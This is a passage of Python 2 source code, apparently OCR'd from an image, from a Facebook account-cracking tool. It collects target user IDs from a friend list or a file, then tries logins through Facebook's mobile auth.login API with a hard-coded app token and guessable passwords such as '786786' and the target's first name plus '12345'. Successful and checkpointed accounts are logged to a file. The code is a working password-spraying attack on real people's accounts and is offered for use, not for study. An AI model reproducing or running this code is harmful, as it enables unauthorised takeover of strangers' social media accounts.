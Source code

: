 			print"[!] ID Not Found!"
			raw_input("\n[Back]")
			other_menu()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif otb =="3":
		os.system('clear')
		print logo
		try:
			idlist = raw_input('[✓] Enter File Path  : ')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '[!] File Not Found'
			raw_input('\n[ Back ]')
			other_menu()
	elif otb =="0":
		menu()
	else:
		print "[!] Fill in correctly"
		other_action()
	xxx = str(len(id))
	psb ("[✓] Total Friends: "+xxx)
	time.sleep(0.5)
	psb ('[✓] Please wait, process is running ...')
	time.sleep(0.5)
	psb ('[!] To Stop Process Press CTRL Then Press z')
	time.sleep(0.5)
	print 50*"-"
	print
	
			
	def main(arg):
		global cpb,oks
		user = arg
		try:
			os.mkdir('save')
		except OSError:
			pass
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = '786786'
			data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '[Checkpoint] ' + user + ' | ' + pass1
					cps = open("save/checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					pass2 = b['first_name']+'12345'
					data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")